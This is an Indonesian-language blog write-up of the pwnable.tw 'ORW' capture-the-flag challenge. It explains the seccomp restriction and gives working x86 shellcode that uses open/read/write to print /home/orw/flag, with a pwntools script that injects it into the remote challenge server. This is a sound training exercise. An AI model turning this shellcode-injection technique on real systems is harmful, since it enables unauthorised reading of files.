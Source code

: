 ```yaml
---
layout: page
title: "Menyelesaikan Challenge pwnable.tw: ORW"
categories: ctf pwn assembly
---
```


<div class="post-categories">
  {% if post %}
    {% assign categories = post.categories %}
  {% else %}
    {% assign categories = page.categories %}
  {% endif %}
  <strong>Categories: </strong>
  {% for category in categories %}
  <a href="{{site.baseurl}}/categories/#{{category|slugize}}">{{category}}</a>
  {% unless forloop.last %}, {% endunless %}
  {% endfor %}
</div>

Pada blog ini, saya akan membagikan bagaimana saya mengerjakan challenge ORW pada [pwnable.tw](https://pwnable.tw){: target="_blank"}

![Soal ORW](/assets/img/Screenshot 2025-05-29 115041.png)

Dari soalーdiberikan detail yang cukup jelas, _read flag from_ `/home/orw/flag` dan _only_ `open` `read` `write` _syscall are allowed to use_

Oke, langsung saja kita download binary yang telah diberikanーdan lihat bagaimana detail file binary-nya dan isi setiap fungsinya pada ghidra

![Detail binary ORW](/assets/img/Screenshot 2025-05-29 144813.png) |

![Hasil decompile Ghidra: fungsi main](/assets/img/Screenshot 2025-05-29 120017.png){: style="display:block; margin-left: auto; margin-right: auto;"} | ![Hasil decompile Ghidra: fungsi orw_seccomp](/assets/img/Screenshot 2025-05-29 120054.png)

Sangat simpel dan _straight-forward_ sekali yak, kita bisa abaikan aja fungsi orw_seccomp, karena saya ga tau itu gimana cara bacanya😅 yang pasti itu sepertinya buat filter semua syscall kecuali `open` `read` `write` dan apabila selain ke-3 syscall ini yang dipanggil, maka `return -1` (bisa dilihat pada man page prctl)

![Apa itu seccomp](/assets/img/Screenshot 2025-05-29 125730.png) | ![Man page prctl](/assets/img/Screenshot 2025-05-29 125632.png)

| ![Hasil check seccomp-tools](/assets/img/Screenshot 2025-05-29 130533.png){: style="display:block; margin-left: auto; margin-right: auto;"}

Terlihat pada seccomp-tools apa2 saja syscall yang dibolehkanーjadi intinya kita diminta _craft shellcode_ dan mengambil flag pada `/home/orw/flag` hanya dengan menggunakan `open` `read` `write` syscall

Oke, langsung saja kita craft sesuai dengan keinginan binary~

```asm
    xor eax, eax        ; Membersihkan eax register (nilai menjadi 0)
    push eax            ; Menambahkan null terminator ke dalam stack

    ; Memasukkan /home/orw/flag ke dalam stack pointer (esp) dengan little-endian byte order
    push 0x00006761     ; 'a', 'g', '\x00', '\x00'
    push 0x6c662f77     ; 'w', '/', 'f', 'l'
    push 0x726f2f65     ; 'e', '/', 'o', 'r'
    push 0x6d6f682f     ; '/', 'h', 'o', 'm'
    ; Jadi hasilnya adalah "/home/orw/flag" di stack lengkap dengan null terminator

    ; Open syscall dengan arguments open("/home/orw/flag", 0, 0)
    mov eax, 0x5        ; 0x5 pada eax untuk memanggil open pada syscall
    mov ebx, esp        ; memasukkan esp (yang berisi path file) sebagai argumen pertama
    xor ecx, ecx        ; argumen kedua: flag O_RDONLY (dengan value 0)
    xor edx, edx        ; argumen ketiga: mode (tidak digunakan, set ke 0)
    int 0x80            ; software interrupt untuk syscall

    mov esi, eax        ; menyimpan file descriptor hasil open ke dalam register esi

    sub esp, 0x32       ; menyediakan 0x32 (50) bytes buffer pada stack
    mov ebp, esp        ; mengisi base pointer dengan stack pointer sebagai alamat buffer

    ; Read syscall dengan arguments read(fd, buf, sizeof(buf))
    mov eax, 0x3        ; 0x3 pada eax untuk memanggil read pada syscall
    mov ebx, esi        ; membaca isi file descriptor (fd) dari open sebagai argumen pertama
    mov ecx, ebp        ; buffer di stack sebagai argumen kedua
    mov edx, 0x32       ; panjang buffer (50 bytes) sebagai argumen ketiga
    int 0x80            ; software interrupt untuk syscall

    ; Write syscall dengan arguments write(1, buf, sizeof(buf))
    mov eax, 0x4        ; 0x4 pada eax untuk memanggil write pada syscall
    mov ebx, 0x1        ; 0x1 merupakan file descriptor untuk stdout (/dev/fd/1) sebagai argumen pertama
    mov ecx, ebp        ; buffer string yang akan di-print sebagai argumen kedua
    mov edx, 0x32       ; panjang buffer sebagai argumen ketiga
    int 0x80            ; software interrupt untuk syscall
```

![x86 syscalls untuk open read write](/assets/img/Screenshot 2025-05-29 141828.png)

Untuk syscall lainnya selain `open` `read` `write` bisa dicek di [syscall.sh](https://syscall.sh){: target="_blank"} ya!!

Oke, begitu aja assembly yang akan kita gunakan untuk mendapatkan flag dari challenge ORW ini, sekarang kita jalankan pada python menggunakan library `pwntools`

```python
#!/usr/bin/env python3

from pwn import *
import os

exe = ELF("./orw")

context.arch = "i386"
context.binary = exe
context.terminal = ["xterm", "-e"]

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.PLT_DEBUG:
            gdb.attach(r)
    else:
        r = remote("chall.pwnable.tw", 10001)

    return r


def write(file, val):
    with open(file, "wb") as f:
        f.write(val)


def main():
    # good luck pwning :)
    r = conn()

    with log.progress("Inject shellcode") as l:

        shellcode = asm('''
            xor eax, eax
            push eax
            
            push 0x00006761
            push 0x6c662f77
            push 0x726f2f65
            push 0x6d6f682f

            mov eax, 0x5
            mov ebx, esp
            xor ecx, ecx 
            xor edx, edx
            int 0x80

            mov esi, eax

            sub esp, 0x32
            mov ebp, esp

            mov eax, 0x3
            mov ebx, esi
            mov ecx, ebp
            mov edx, 0x32
            int 0x80

            mov eax, 0x4
            mov ebx, 0x1
            mov ecx, ebp
            mov edx, 0x32
            int 0x80
        ''')
        r.recv()
        r.send(shellcode)
        l.success()

    r.interactive()


if __name__ == "__main__":
    main()
```

Maka akan didapatlah flagnya!!

Semoga bermanfaat, mohon maaf jika ada salah penyampaian, dan terima kasih telah membaca!
